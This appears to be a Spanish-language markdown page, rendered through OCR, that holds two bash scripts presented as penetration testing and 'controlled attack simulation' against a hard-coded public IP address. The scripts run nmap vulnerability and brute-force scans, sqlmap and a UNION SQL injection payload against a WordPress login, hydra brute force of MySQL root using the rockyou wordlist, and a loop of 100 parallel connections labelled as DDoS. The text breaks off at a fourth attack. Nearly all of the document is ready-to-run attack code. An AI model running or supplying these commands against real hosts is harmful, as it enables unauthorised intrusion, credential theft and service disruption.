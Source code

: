 #### **Scripts de penetration testing:**
```bash
# Script 1: Escaneo de vulnerabilidades
cat > ~/pentesting/vulnerability_scan.sh << 'EOF'
#!/bin/bash

TARGET_IP="34.57.77.240"
echo "🔍 Iniciando escaneo de vulnerabilidades..."

# Escaneo de puertos
echo "📡 Escaneando puertos..."
nmap -sS -O -sV $TARGET_IP > nmap_results.txt

# Escaneo específico de bases de datos
echo "🗄️ Escaneando servicios de BD..."
nmap -p 1433,3306,5432 --script=ms-sql-info,mysql-info,pgsql-brute $TARGET_IP

# Escaneo web básico
echo "🌐 Escaneando servicios web..."
nmap -p 80,443,8080 --script=http-enum,http-vuln* $TARGET_IP

# SQL Injection testing con sqlmap
echo "💉 Probando SQL Injection..."
sqlmap -u "http://$TARGET_IP:8080/wp-login.php" --forms --batch --level=3 --risk=2

# Fuerza bruta MySQL Bunker
echo "🔓 Probando fuerza bruta MySQL..."
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://$TARGET_IP:3307

echo "✅ Escaneo completado. Revisar archivos de resultados."
EOF

chmod +x ~/pentesting/vulnerability_scan.sh
```

#### **Simulación de ataques:**
```bash
# Script 2: Simulación de ataques controlados
cat > ~/pentesting/attack_simulation.sh << 'EOF'
#!/bin/bash

TARGET_IP="34.57.77.240"
echo "⚔️ Iniciando simulación de ataques controlados..."

# Ataque 1: SQL Injection en WordPress
echo "💉 Simulando SQL Injection..."
curl -X POST "http://$TARGET_IP:8080/wp-login.php" \
    -d "log=admin' UNION SELECT 1,2,3,4,5--" \
    -d "pwd=password"

# Ataque 2: Conexiones masivas (DDoS simulation)
echo "🌊 Simulando DDoS..."
for i in {1..100}; do
    mysql -h $TARGET_IP -P 3307 -u root -e "SELECT 1;" &
done
wait

# Ataque 3: Intentos de login por fuerza bruta
echo "🔓 Simulando fuerza bruta..."
for pass in admin password 123456 admin123; do
    mysql -h $TARGET_IP -P 3307 -u root -p$pass -e "SELECT USER();" 2>/dev/null
done

# Ataque 4: Acceso fuera de horario (si es de noche)
```